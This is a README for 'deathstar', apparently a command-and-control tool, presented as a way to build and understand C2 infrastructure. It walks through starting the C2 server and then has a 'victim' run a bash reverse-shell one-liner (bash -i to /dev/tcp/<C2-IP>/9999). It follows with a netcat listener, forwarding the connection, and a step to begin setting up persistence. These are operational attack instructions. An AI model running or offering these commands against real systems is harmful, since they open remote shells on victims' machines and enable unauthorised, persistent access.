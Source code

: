 # deathstar
Build and understand c2 infrastructure

![screen](https://github.com/user-attachments/assets/7de184fa-cd0b-4cbf-b701-9f505a77cb2a)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

or 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

